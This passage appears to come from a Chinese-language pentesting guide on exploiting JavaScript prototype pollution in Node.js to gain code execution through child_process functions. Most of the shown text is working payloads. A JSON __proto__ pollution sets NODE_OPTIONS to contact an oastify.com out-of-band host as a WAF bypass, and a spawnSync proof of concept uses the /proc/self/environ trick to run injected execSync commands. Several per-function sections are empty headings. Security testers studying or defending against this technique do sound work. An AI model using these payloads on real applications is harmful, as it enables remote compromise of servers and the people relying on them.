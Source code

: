 或者，为了避免WAF要求域名：

```json
{
"__proto__": {
"argv0":"node",
"shell":"node",
"NODE_OPTIONS":"--inspect=id\"\".oastify\"\".com"
}
}
```

## PP2RCE漏洞child\_process函数

在这一部分中，我们将分析`child_process`中的**每个函数**，以执行代码并查看是否可以使用任何技术来强制该函数执行代码：

<details><summary><code>exec</code>利用</summary></details>

<details><summary><strong><code>execFile</code>利用</strong></summary></details>

<details><summary><strong><code>spawn</code>利用</strong></summary></details>

<details><summary><strong><code>execFileSync</code>利用</strong></summary></details>

<details><summary><strong><code>execSync</code>利用</strong></summary></details>

<details>

<summary><strong><code>spawnSync</code>利用</strong></summary>
```javascript
// environ trick - working with small variation (shell and argv0)
// NOT working after kEmptyObject (fix) without options
const { spawnSync } = require('child_process');
p = {}
// If in windows or mac you need to change the following params to the path of node
p.__proto__.argv0 = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.shell = "/proc/self/exe" //You need to make sure the node executable is executed
p.__proto__.env = { "EVIL":"console.log(require('child_process').execSync('touch /tmp/spawnSync-environ').toString())//"}
p.__proto__.NODE_OPTIONS = "--require /proc/self/environ"
var proc = spawnSync('something');
//var proc = spawnSync('something',[],{"cwd":"/tmp"}); //To work after kEmptyObject (fix)
````